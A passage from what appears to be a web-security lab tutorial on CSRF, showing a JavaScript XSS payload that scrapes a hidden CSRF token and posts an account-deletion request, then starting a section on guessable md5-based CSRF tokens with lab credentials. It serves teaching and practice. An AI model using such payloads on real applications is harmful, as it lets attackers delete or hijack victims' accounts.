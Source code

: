 You just executed a CSRF attack through XSS, bypassing the same origin/same site protections in place!

* * *

**Extra practice**: Adapt the XSS payload above to delete @goldenpeacock467's account through CSRF.

**Click to show answer**

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/delete/[email protected]',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/delete', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token);
};
</script>

```

* * *

The following section will focus on identifying and bypassing weak CSRF tokens to execute CSRF attacks.


# Exploiting Weak CSRF Tokens

* * *

Often, web applications do not employ very secure or robust token generation algorithms. An example is an application that generates CSRF tokens as follows (pseudocode): `md5(username)`.

How can we tell if that is the case? We can register an account, look into the requests to identify a CSRF token, and then check if the MD5 hash of the username is equal to the CSRF token's value.

Let us see this in action!

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost ( `csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

- Email: goldenpeacock467
- Password: topcat

Open Web Developer Tools (Shift+Ctrl+I in the case of Firefox) and focus on the _Network_ tab.

Back to the user's profile, press _Change Visibility_ and then _Make Public_.
